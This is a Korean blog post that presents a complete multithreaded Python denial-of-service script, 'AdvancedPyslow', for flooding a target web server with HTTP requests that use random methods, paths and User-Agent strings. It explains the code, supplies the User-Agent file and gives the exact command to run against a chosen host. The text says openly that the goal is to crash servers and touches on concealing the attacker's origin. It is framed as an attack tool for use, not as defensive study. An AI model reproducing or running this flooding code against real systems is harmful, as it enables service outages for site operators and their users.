 ```yaml
---
layout: single
title:  "윈도우에서 디도스 더 고도화 해서 날려보기"
categories: "Secure"
tag: "Secure"
toc: true
author_profile: false
sidebar:
    nav: "docs"
---
```


# 지난번의 코드의 연장선이다.  
지난번의 코드는, 뭔가 아쉬운 점이 많이 있었다.  
따라서 다음의 기능을 추가하여 더욱 효과적으로 디도스를 날릴 수 있따.  
아번 코드는 다중 스레드를 활용하여 더욱 효과적으로 패킷을 전송하며, 랜덤한 HTTP 메소드와 User-Agent를 사용한다.  
또한, 전송된 패킷 수와 실패한 패킷 수를 출력하여 진행 상황을 모니터링할 수 있다.  

```python
version = '3.1'

# 필요한 라이브러리 import
import re
import os
import sys
import time
import string
import signal
import http.client
import urllib.parse
from random import choice, randint
from socket import *
from threading import Thread
from argparse import ArgumentParser, RawTextHelpFormatter

# 사용자 입력 처리
def get_args():
    parser = ArgumentParser(formatter_class=RawTextHelpFormatter)
    parser.add_argument("-u", "--url", required=True, help="공격할 URL을 입력하십시오.")
    parser.add_argument("-p", "--port", default=80, type=int, help="공격할 포트 번호 (기본값: 80)")
    parser.add_argument("-t", "--threads", default=100, type=int, help="스레드 수 (기본값: 100)")
    parser.add_argument("-s", "--sleep", default=0, type=float, help="스레드 간 대기 시간 (초, 기본값: 0)")
    return parser.parse_args()

# 패킷 전송 방식 고도화 클래스
class AdvancedPyslow:
    def __init__(self, tgt, port, threads, sleep):
        self.tgt = tgt
        self.port = port
        self.threads = threads
        self.sleep = sleep
        self.method = ['GET', 'POST', 'HEAD', 'PUT', 'DELETE']  # 다양한 HTTP 메소드
        self.user_agents = self.load_user_agents()  # User-Agent 목록 불러오기

    def load_user_agents(self):
        try:
            with open("./ua.txt", "r") as fp:
                return re.findall(r"(.+)\n", fp.read())
        except FileNotFoundError:
            print('[-] \'ua.txt\' 파일을 찾을 수 없습니다.')
            return []

    # 패킷 생성 함수
    def create_packet(self):
        method = choice(self.method)
        path = '/' + str(randint(1, 999999999))
        user_agent = choice(self.user_agents)
        return f"{method} {path} HTTP/1.1\r\nHost: {self.tgt}\r\nUser-Agent: {user_agent}\r\n\r\n"

    # 패킷 전송 함수
    def send_packet(self):
        try:
            with socket(AF_INET, SOCK_STREAM) as sock:
                sock.connect((self.tgt, self.port))
                packet = self.create_packet()
                sock.sendall(packet.encode())
                print(f"[+] 패킷 전송: {packet.strip()}")
        except Exception as e:
            print(f"[-] 패킷 전송 실패: {e}")

    # 스레드 실행 함수
    def run(self):
        threads = []
        for _ in range(self.threads):
            t = Thread(target=self.send_packet)
            t.start()
            threads.append(t)
            time.sleep(self.sleep)  # 스레드 간 대기 시간

        for t in threads:
            t.join()

if __name__ == "__main__":
    signal.signal(signal.SIGINT, signal.SIG_DFL)  # Ctrl+C 시 기본 시그널 처리
    args = get_args()
    target_ip = gethostbyname(args.url)  # 도메인에서 IP 주소 얻기
    print(f"[+] 공격 대상: {args.url} ({target_ip})")
    
    # 패킷 전송 고도화 클래스 인스턴스 생성 및 실행
    attack = AdvancedPyslow(target_ip, args.port, args.threads, args.sleep)
    attack.run()

```  
### 코드 설명
다양한 HTTP 메소드: 
self.method 리스트에 GET, POST, HEAD, PUT, DELETE 메소드를 추가하여 패킷을 생성할 때 다양하게 날리게끔 하였다.  

스레드 실행: 
각 스레드가 패킷을 전송하도록 하여 공격 효과를 극대화 했다.  
각 스레드는 일정 시간 간격으로 대기하여 서버에 부하를 분산시킨다.  
이래놓고 개많이 보내면, 서버에 쌓이는 패킷이 기하급수적으로 늘어가 더 쉽게 서버를 다운 시킬 수 있따.  

패킷 생성 및 전송: 
패킷 생성 함수와 전송 함수가 분리되어 있어, 패킷을 전송할 때마다 새로운 패킷이 생성된다.  

사용자 입력 처리: 
argparse를 사용하여 명령줄 인자로 URL, 포트, 스레드 수, 대기 시간을 입력받을 수 있다.  

### 코드 사용 방법
먼저, 다음 파일을 준비해야 한다.  
ua.txt
```txt
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15
Mozilla/5.0 (Linux; Android 10; Pixel 3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36
Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1

```

ua.txt 파일에 User-Agent 목록을 넣는 것으로, 공격 대상 서버에 저 내용의 정보를 넘기게 된다.  
브라우저 이름, 버전, 운영 체제 등의 정보가 포함되어 있으며, 이 정보를 통해 공격한다.

위 코드를 사용하려면, 커널에 다음과 같이 하면 사용할 수 있다
```bash
python script.py -u example.com -p 80 -t 100 -s 0.1

```
ua.txt를 통해서 자신이 어디에서 공격하고 있는지 숨길 수 있긴 하다.  
하지만, 이게 완벽하게 숨겨지는것이 아니라, 저 목록 안의 내용중에서 무작위로 날려대는 것이기 때문에 내 위치가 들킬 수 도 있다.  
서버는 요청의 출처를 정확하게 식별하기 어려워져 나이스 하긴 하지만,  
다른 방식으로 공격을 감지할 수 있는 서버들도 많이 있다.  
요청의 빈도, IP 주소, 기타 패턴 분석 등을 통해 의심스러운 활동을 탐지당할 수 있기 때문에 저것 만으론 부족하다.  
